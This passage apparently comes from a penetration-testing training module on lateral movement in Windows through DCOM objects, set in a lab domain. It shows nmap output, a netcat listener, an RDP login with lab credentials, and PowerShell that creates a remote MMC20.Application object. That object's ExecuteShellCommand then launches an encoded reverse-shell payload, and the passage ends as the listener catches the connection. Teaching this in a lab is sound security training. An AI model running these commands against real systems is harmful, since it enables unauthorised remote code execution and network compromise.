 Host script results:
|_nbstat: NetBIOS name: SRV02, NetBIOS user: &lt;unknown&gt;, NetBIOS MAC: 00:0d:3a:e4:57:44 (Microsoft)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.52 seconds
</code></pre>
<h2>Lateral Movement From Windows</h2>
<p>Lateral movement from a Windows system can be achieved by performing several techniques with <code>DCOM</code> objects, here we will be implementing <code>MMC20</code>, <code>ShellWindows</code>, and <code>ShellBrowserWindows</code>.</p>
<h3>MMC20.Application</h3>
<p>The <code>MMC20.Application</code> object allows remote interaction with Microsoft Management Console (MMC), enabling us to execute commands and manage administrative tasks on a Windows system through its graphical user interface components.</p>
<p>To use this technique, first let's start listening with <code>Netcat</code> on our attack host:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8001
Listening on 0.0.0.0 8001
</code></pre>
<p>Let's connect via RDP to <code>SRV01</code> using Helen's credentials.</p>
<pre><code class="language-shell-session">[!bash!]$ xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux
</code></pre>
<p>Now, we must create an instance of the <code>MMC20.Application</code> object. This is done using PowerShell to interact with COM objects. Here's the command we use:</p>
<pre><code class="language-powershell-session">PS C:\Tools\&gt; $mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","172.20.0.52"));
</code></pre>
<p>We create an instance of the <code>MMC20.Application</code> COM object on our target server <code>SRV02</code> using PowerShell. We declare a variable <code>$mmc</code> to store this instance and use the .NET Activator class's <code>CreateInstance</code> method to initialize it. The <code>GetTypeFromProgID</code> method retrieves the type information for the MMC20.Application based on its <code>ProgID</code>, "MMC20.Application", from the remote server at <code>172.20.0.52</code>.</p>
<p>Next, we can utilize the <code>ExecuteShellCommand</code> function within the <code>Document.ActiveView</code> property. <a href="https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand">Microsoft documentation </a> defines the method as follows:</p>
<pre><code class="language-code">View.ExecuteShellCommand( _
  ByVal Command As String, _
  ByVal Directory As String, _
  ByVal Parameters As String, _
  ByVal WindowState As String _
)
</code></pre>
<p>In order to use it, we must complete all parameters. The first is the <code>Command</code> to execute, which will be <code>powershell.exe</code>, next we set the <code>Directory</code> to <code>$null</code>, 3rd we add PowerShell's parameters with our reverse shell payload, we will use a payload from <a href="https://www.revshells.com/">https://www.revshells.com</a>, and finally we set the <a href="https://learn.microsoft.com/en-us/dotnet/api/system.windows.windowstate?view=windowsdesktop-8.0">WindowState</a> to <code>0</code> so it will execute normally:</p>
<pre><code class="language-powershell-session">PS C:\Tools\&gt; $mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==",0)
</code></pre>
<p>After execution, we would have successfully established a reverse shell connection:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8001                                                                                                                                                 
listening on [any] 8001 ...                                                                                                                                         
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.245] 58400                                                                                                     
                                                                                                                                                                    